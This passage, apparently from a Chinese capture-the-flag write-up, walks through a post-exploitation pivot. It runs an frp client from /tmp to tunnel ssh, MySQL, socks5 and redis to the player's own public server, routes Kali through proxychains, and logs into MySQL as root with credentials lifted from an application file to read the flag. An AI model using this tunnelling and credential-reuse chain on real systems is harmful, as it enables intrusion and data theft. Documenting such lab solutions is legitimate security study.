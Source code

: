 修改时候，这里使用 ```cat >> frpc.ini << EOF``` 命令，但是没有权限，参照别人的操作，在 ```/tmp``` 目录下创建 ```frpc.ini``` 进行操作

**注意：一定要把 frpc.ini 中的注释去掉，不然可能有奇奇怪怪的 bug**

然后在 ```/tmp``` 目录下运行
```shell
/app/tools/frpc -c ./frpc.ini
```

操作成功会显示如下
```shell
$ /app/tools/frpc -c ./frpc.ini
2023/10/26 23:36:27 [I] [service.go:299] [62036f73016466e5] login to server success, get run id [62036f73016466e5], server udp port [0]                                                                                                                                     
2023/10/26 23:36:27 [I] [proxy_manager.go:142] [62036f73016466e5] proxy added: [ssh mysql plugin_socks5 redis]
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [ssh] start proxy success
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [mysql] start proxy success
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [plugin_socks5] start proxy success
2023/10/26 23:36:27 [I] [control.go:172] [62036f73016466e5] [redis] start proxy success
```

因为在外部服务器的 ```/app/dataSql.py``` 目录中获取到了 ```mysql``` 的用户名和密码，如下
```shell
db = pymysql.connect(
                    host="mysql",  # 数据库地址
                    port=3306,  # 数据库端口
                    user="root",  # 数据库用户名
                    passwd="The_P0sswOrD_Y0u_Nev3r_Kn0w",  # 数据库密码
                    database="messageboard",  # 数据库名
                    charset='utf8'
                )
```

所以直接尝试登录 ```mysql```

#### proxychains 配置代理

情景：假如我的 frp 的服务器（就是自己的公网服务器）为 192.168.179.129，现在想用 kali 方便操作，需要在 kali 这样设置

修改 kali 的  ```/etc/proxychains4.conf``` 文件
```shell
gedit /etc/proxychains4.conf
```

在最底下加上
```shell
socks5 192.168.179.129 7777
```

然后使用 mysql 的账户密码连接
```shell
proxychains4 mysql -h 192.168.179.129 -P 6300  -uroot -pThe_P0sswOrD_Y0u_Nev3r_Kn0w
```

连上数据库之后，直接查询内容得到flag
```shell
SHOW DATABASES;
SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = 'messageboard';
USE messageboard;
SELECT flag FROM flag;
```
